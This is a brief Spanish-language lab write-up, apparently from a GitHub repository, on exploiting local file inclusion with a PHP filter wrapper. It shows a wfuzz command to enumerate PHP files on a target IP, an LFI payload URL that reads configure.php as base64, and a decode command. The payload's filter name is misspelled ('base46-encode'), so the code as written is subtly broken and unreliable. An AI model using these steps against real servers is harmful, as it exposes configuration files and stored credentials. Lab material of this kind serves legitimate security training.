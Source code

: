 # LFI: PHP Wrapper 🔐

La página web que vulneraremos es:

![Web.PNG](./assets/03-Tercero/01-web.PNG)

---

Para encontrar nuevos archivos **php** usaremos `wfuzz`

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://<IP>/FUZZ
```

**Output**

<p align="center">
    <img src="./assets/03-Tercero/02-Fuzz.PNG">
</p>

---

Si colocamos literalmente esto `http://<IP>/configure.php` no nos mostrará el contenido del archivo, por lo cual, usaremos un wrapper para obtener el contenido en **base64** y luego decodearlo. 🔑

* **URL** `http://<IP>/index.php?languaje=php://filter/read=convert.base46-encode/resource=configure`

<p align="center">
    <img src="./assets/03-Tercero/03-Content.PNG">
</p>

---

Ahora decodeamos el contenido con el comando `echo "[Data base64]" | base64 -d; echo`

<p align="center">
    <img src="./assets/03-Tercero/04-php.PNG">
</p>